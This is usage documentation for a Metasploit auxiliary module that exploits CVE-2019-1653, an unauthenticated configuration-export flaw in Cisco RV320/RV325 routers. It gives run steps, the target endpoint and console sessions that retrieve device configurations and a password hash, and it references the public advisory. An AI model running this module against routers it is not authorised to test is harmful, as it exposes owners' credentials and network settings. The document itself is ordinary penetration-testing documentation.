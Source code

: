 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.4.2.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.4.2.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 6. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
>```
 5. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN side, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 172.16.0.34
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19):

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
172.16.0.34  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
172.16.0.34  192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
172.16.0.34           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
